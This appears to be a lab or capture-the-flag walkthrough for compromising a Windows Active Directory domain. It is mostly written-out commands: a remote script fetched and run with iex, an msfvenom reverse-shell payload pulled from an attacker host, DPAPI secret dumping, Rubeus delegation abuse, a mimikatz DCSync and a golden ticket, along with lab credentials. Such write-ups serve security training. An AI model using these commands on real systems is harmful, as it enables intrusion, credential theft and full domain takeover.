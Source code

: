 # BASIC

```bash
smbclient -U 'a%a' -L //10.2.10.11
smbclient -U 'a%a' //10.2.10.11/all
> ls
> get administrator.txt
```
Found credentials `alice:WeeklyTaste34`  

Access Powershell WebAccess console by opening `https://10.2.10.11/pswa` in a browser. Use the previous credentials for authentication.  
![](./img/powershellwebaccess.png)

Next we enumerate vulnerable services with PowerUp.ps1.  
```powershell
iex (iwr -UseBasicParsing "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1")
Get-UnquotedService
Get-ModifiableService
```
Found vulnerable service named "Custom Service 1"  

On the attacker machine run the following commands to create a payload, host it and after it's downloaded on the windows machine, spawn a netcat listener.  
```bash
cd /tmp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f exe > Service.exe
python3 -m http.server # http server to host the payload
nc -lvnp <attacker-port>
```

On the windows machine run the following commands to download the payload and exploite the unquoted service vulnerability.  
```powershell
curl.exe 'http://<attacker-ip>:8000/Service.exe' -o Service.exe
cp .\Service.exe "C:\Program Files\Custom Service1\Service.exe"
cmd /c 'sc stop "Custom Service 1"'
cmd /c 'sc start "Custom Service 1"'
```

Now that we have a reverse shell, find the flag and enumerate the machine.  
```batch
type C:\Users\Administrator\Desktop\flag.txt
type C:\Users\Administrator\Desktop\charlie_mail.txt
```
We find the following credentials in charlie_mail.txt: `charlie:FretfulFiddler314`  
Connect over RDP with the charlie user.  
![](./img/rdp.png)

Looking at the credential manager, we see charlie has stored credentials as the bob user.  
This can be seen in the following image.  
![](./img/credential_manager.png)

For the netexec command to work, the charlie user needs to be a local administrator, so we first add him to the Administrators group.  
We can do this because the reverse shell is ran as the NT AUTHORITY user.
```powershell
net localgroup Administrators basic\charlie /add
nxc smb 10.2.10.11 -u charlie -p FretfulFiddler314 --dpapi
```
Found credentials `basic\bob:ThoughtfulCow292`  

Connect over RDP to SRV02 with the bob user.  
This machine is trusted for unconstrained delegation. We start the Rubeus listener and execute MS-RPRN.exe in another command-line process.
```powershell
curl.exe 'https://raw.githubusercontent.com/Flangvik/SharpCollection/refs/heads/master/NetFramework_4.5_Any/Rubeus.exe' -o Rubeus.exe
.\Rubeus.exe monitor /interval:5 /nowrap
.\MS-RPRN.exe \\dc01.basic.lab \\srv02.basic.lab
```

After we receive a ticket, import the ticket into our current session and execute a dcsync attack with mimikatz.  
```powershell
.\Rubeus.exe ptt /ticket:<ticket>
curl.exe -L https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -o mimikatz_trunk.zip
Expand-Archive mimikatz_trunk.zip
cd .\mimikatz_trunk\x64\
.\mimikatz.exe
> lsadump::dcsync /user:BASIC\krbtgt
```

Finally, we craft a golden ticket as the Administrator user on the DC01 and print out the flag.  
```powershell
.\Rubeus.exe golden /user:Administrator /domain:basic.lab /sid:S-1-5-21-849352622-1517508249-469259959 /aes256:956e50686bd404b24e9f2facb88b23d957cf73e70bfc40bccab553c8d8acdb45 /show /ptt
winrs -r:dc01 cmd /c type C:\Users\Administrator\Desktop\flag.txt
```
